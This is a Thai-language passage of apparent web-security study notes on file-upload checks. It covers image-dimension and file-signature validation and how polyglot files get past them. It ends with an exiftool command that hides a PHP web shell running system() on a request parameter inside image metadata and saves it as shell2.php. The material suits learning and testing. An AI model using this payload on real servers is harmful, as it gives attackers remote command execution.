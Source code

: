 ในกรณีของฟังก์ชันอัปโหลดรูปภาพ เซิร์ฟเวอร์อาจพยายามตรวจสอบคุณสมบัติโดยธรรมชาติของรูปภาพ เช่น ขนาดความกว้างและความสูง หากเราพยายามอัปโหลดสคริปต์ PHP ตัวอย่างเช่น มันจะไม่มีขนาดเลย เซิร์ฟเวอร์จึงสามารถสรุปได้ว่ามันไม่ใช่รูปภาพ และปฏิเสธการอัปโหลดตามนั้น

## การตรวจสอบด้วย File Signature

ในทำนองเดียวกัน ไฟล์บางประเภทอาจมีลำดับไบต์เฉพาะในส่วนหัวหรือส่วนท้ายเสมอ สิ่งเหล่านี้สามารถใช้เหมือนลายนิ้วมือหรือลายเซ็นเพื่อกำหนดว่าเนื้อหาตรงกับประเภทที่คาดหวังหรือไม่ 

ตัวอย่างเช่น ไฟล์ JPEG จะเริ่มต้นด้วยไบต์ `FF D8 FF` เสมอ

นี่เป็นวิธีที่แข็งแกร่งกว่ามากในการตรวจสอบประเภทไฟล์ แต่แม้แต่วิธีนี้ก็ไม่ใช่ว่าจะป้องกันได้หมดจด 

## การหลีกเลี่ยงด้วย Polyglot Files

เราสามารถใช้เครื่องมือพิเศษ เช่น **ExifTool** เพื่อสร้างไฟล์ JPEG แบบ polyglot ที่มีโค้ดอันตรายอยู่ใน metadata ได้อย่างง่ายดาย

---
![alt text](image-20.png)

![alt text](image-19.png)
```
exiftool -DocumentName="<h1>Testing<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" image.png -o shell2.php

```